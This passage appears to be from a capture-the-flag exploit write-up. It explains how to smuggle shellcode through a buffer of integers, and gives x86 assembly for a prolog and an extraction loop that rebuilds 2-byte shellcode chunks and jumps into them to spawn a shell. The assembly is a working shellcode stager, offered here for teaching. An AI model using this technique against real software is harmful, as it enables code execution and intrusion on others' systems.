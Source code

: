 ```

```
This idea seems nice but there are some limitations. The "prolog" and "extract" parts can be 
very tricky, and must consist of 2 (or 3 if we're lucky) byte instrutions. Let's start:

When we enter the shellcode region, eax points to the beginning of that region. If we want
to execute a single byte instruction, we're looking for an integer that after casting will
have the form: 0x??01ebKK

Here, KK is the desired 1 byte instruction and ?? can be anything. The idea is to execute KK
and then skip the last byte by executing a jmp +1. I found that there's an integer for every 
1 byte instruction, so we're fine. Let's see the prolog:
```assembly
	nop								; real reversers always start with nop
	nop								;
	push 	eax						;
	push 	eax						;
	pop 	edx						; edx = entry point
	pop 	ebx						; ebx = entry point
	jmp 	70h						; skip tuples
```	

Note the first limitation here: jump instruction must be 2 bytes long, so the maximum (positive)
offset is 0x7F. With 2 bytes of shellcode per 4 bytes we can have up to 62 bytes of shellcode.
That's ok for a /bin/sh, but not for other ones.

Then the hard part follows: Extract this shellcode and execute it. If we extract the shellcode
at the beginning of the buffer, and do not modify eax then we do a "jmp eax" (which is only 2 
bytes) and jump to the shellcode.

Let's see the "extract" part:
```assembly
	mov		bl, 0x1c				; bl points to the tuple area (addresses are fixed)
	xor 	ecx, ecx				; ecx = 0
	mov 	cl, 0x20				; ecx = 32

EXTRACT_NEXT:
	push	word ptr [ebx]			; first 2 bytes of the shellcode on stack (3B instruction)
  	inc 	ebx						; move on the next tuple 
  	inc 	ebx						;
  	inc 	ebx						;
  	inc 	ebx						;

	push	word ptr [ebx]			; next 2 bytes of the shellcode on stack (3B instruction)
  	inc 	ebx						; move on the next tuple
  	inc 	ebx						;
  	inc 	ebx						;
  	inc 	ebx						;

	pop 	ebp						; ebp contains 4 bytes of the shellcode (watch out endianess)
	mov    	dword ptr [edx], ebp	; store the 4 bytes at the beginning of the region (2B instruction)
	inc 	edx						; move on the next free slot
	inc 	edx						;
	inc 	edx						;
	inc 	edx						;

	loop  	EXTRACT_NEXT			; repeat until ecx = 0

	nop								; we love nops!
	nop								;
	jmp    eax 						; jump to the shellcode
```
